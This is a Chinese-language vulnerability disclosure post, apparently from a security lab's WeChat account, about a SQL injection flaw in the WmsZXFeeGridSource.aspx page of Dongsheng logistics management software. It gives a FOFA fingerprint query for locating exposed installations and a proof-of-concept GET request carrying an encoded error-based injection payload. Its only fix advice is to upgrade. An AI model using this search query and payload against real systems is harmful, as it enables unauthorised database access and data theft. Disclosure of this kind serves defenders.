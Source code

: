 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk5MDYxODcwMA==&mid=2247483934&idx=1&sn=d5857143ae8cc3a4efc5a0e53ced58cf

#  东胜物流软件 WmsZXFeeGridSource.aspx SQL注入漏洞  
原创 zz  星络安全实验室   2025-07-19 05:17  
  
<table><tbody><tr><td data-colwidth="576"><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></td></tr></tbody></table>  
漏洞详情：  
  
东胜物流软件是青岛东胜伟业软件有限公司一款集订单管理、仓库管理、运输管理等多种功能于一体的物流管理软件。东胜物流信息管理系统 WmsZXFeeGridSource.aspx 存在SQL注入漏洞，攻击者可以通过该漏洞获取数据库敏感信息  
  
漏洞复现：  
  
fofa：  

```
body=&#34;FeeCodes/CompanysAdapter.aspx&#34; || body=&#34;dhtmlxcombo_whp.js&#34; || body=&#34;dongshengsoft&#34; || body=&#34;theme/dhtmlxcombo.css&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcHC6gPlDoibVcge7UXeAG0J8gC4CgOECQibqIgvno0fj90Ube33Vz1tAbcOTpJObKj8MWo3bSOibl1A/640?wx_fmt=png&from=appmsg "")  
  
poc：  
  

```
GET /WMS_ZX/WmsZXFeeGridSource.aspx?areaname=%20%20%20%20%5c%75%30%30%33%31%5c%75%30%30%32%37%5c%75%30%30%36%31%5c%75%30%30%36%65%5c%75%30%30%36%34%5c%75%30%30%32%30%5c%75%30%30%33%31%5c%75%30%30%33%63%5c%75%30%30%34%30%5c%75%30%30%34%30%5c%75%30%30%35%36%5c%75%30%30%34%35%5c%75%30%30%35%32%5c%75%30%30%35%33%5c%75%30%30%34%39%5c%75%30%30%34%66%5c%75%30%30%34%65%5c%75%30%30%32%64%5c%75%30%30%32%64%20%20%20%20&read=%20%20%20%20areaname%20%20%20%20 HTTP/1.1
Host: xx
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcHC6gPlDoibVcge7UXeAG0JzTddqRKvicXlNZl7T4rEPDpxe3U17vXh5WZOsZfGPosaiaUs1OeRv7Jw/640?wx_fmt=png&from=appmsg "")  
  
修复建议：  
  
关注厂商动态，升级至安全版本  
  
  
